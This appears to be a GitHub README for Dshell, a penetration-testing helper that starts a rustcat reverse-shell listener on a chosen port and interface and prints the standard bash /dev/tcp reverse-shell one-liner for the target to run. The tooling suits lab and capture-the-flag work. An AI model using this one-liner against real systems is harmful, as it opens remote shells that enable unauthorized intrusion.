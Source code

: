 # Dshell

> "A reverse shell shows that true control comes when the target reaches back willingly."

<br>

**Dshell** is a reverse shell script that prepares a responsive shell on a specified port using [rustcat](https://github.com/robiot/rustcat).

<br><br>

## Features

* Quickly set up a reverse shell listener.
* Kill running Dshell processes on demand.
* Supports multiple network interfaces by default.

<br><br>

## Installation

Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.

<br><br>

## Usage

<br>

### Help Menu

```sh
dshell -h

[Info] Usage:
    /usr/local/bin/dshell -p <PORT> [IFACE|IP]
    /usr/local/bin/dshell -k <PORT|all>
```
<br><br>

### Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

<br>

Dshell will output the most commonly used reverse shell `bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'` with the supplied IP and PORT
If no interface or IP is supplied, Dshell will try the following interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

<br><br>

### Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` 		– Kill Dshell process running on a specific port.
* `all` 		– Kill all Dshell processes.

<br><br>

### Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```
